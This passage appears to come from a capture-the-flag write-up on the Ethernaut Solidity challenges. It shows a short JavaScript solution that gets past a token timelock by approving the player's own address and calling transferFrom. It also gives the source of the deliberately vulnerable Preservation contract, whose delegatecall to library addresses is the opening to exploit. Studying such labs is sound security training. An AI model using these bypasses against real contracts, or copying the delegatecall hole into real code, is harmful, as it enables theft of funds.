 ```solidity
    }
  }
}
```

To solve the challenge we need to send the tokens from our accont to others , and our balance should be 0.

We can't doirectly transfer , because of the `lockTokens` check.

Here we are inherting the ERC20 token , in ERC20 token we have other functions like transfer to tranfer tokens.

First we need to allow other address to send tokens behalf of our account by `approve` method.

And then use `transferFrom` to send the tokens from the approved account.

I approved myself as a other account here.

```js
var f = await contract.balanceOf(player);
await contract.approve(player, f);
await contract.transferFrom(
	player,
	"0x4FB63736C20ea6cFa8FfEFab75A728D5f4A853D8",
	f
);
```

## 16 Preservation

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Preservation {
  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress;
    timeZone2Library = _timeZone2LibraryAddress;
    owner = msg.sender;
  }

  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}
// Simple library contract to set the time
contract LibraryContract {
  // stores a timestamp
  uint storedTime;
  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```
